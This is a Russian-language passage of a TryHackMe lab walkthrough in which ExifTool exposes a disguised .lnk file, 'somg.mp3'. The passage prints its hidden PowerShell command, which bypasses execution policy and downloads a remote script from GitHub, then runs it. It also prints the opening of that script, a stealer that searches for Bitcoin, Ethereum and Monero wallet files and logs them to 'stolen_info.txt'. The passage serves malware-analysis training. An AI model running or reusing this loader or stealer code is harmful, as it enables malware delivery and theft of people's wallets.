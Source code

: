 Существует несколько способов проверки .lnk  файлов для выявления встроенных команд и атрибутов. Однако для этой 
комнаты мы будем использовать ExifTool , который уже установлен на этой машине.

Для этого вернитесь в Терминал и введите:

Использование терминала Exiftool
```commandline
user@tryhackme:~$ exiftool somg.mp3
```

Просмотрите вывод, чтобы найти команду, используемую в качестве ярлыка в somg.mp3 файле. Если вы прокрутите вывод 
вниз, вы должны увидеть команду PowerShell.

Использование терминала Exiftool
```commandline
...
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
user@tryhackme:~# 
```

Что делает эта команда PowerShell :

- Флаги -ep Bypass -nopотключают обычные ограничения PowerShell, позволяя выполнять скрипты без вмешательства 
настроек безопасности или профилей пользователей.
- Метод DownloadFileизвлекает файл (в данном случае IS.ps1) с удаленного сервера ( https://raw.githubusercontent.
  com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1 ) и сохраняет его в C:\\ProgramData\\каталоге на целевой машине.
- После загрузки скрипт выполняется с помощью PowerShell с помощью iex команды, которая запускает загруженный s.ps1 
  файл.
- Если вы откроете содержимое файла для загрузки с помощью браузера ( https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1), вы увидите, как нам повезло, что мы сейчас не используем Windows.

PowerShell
Скриптовый терминал 
```commandline
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
```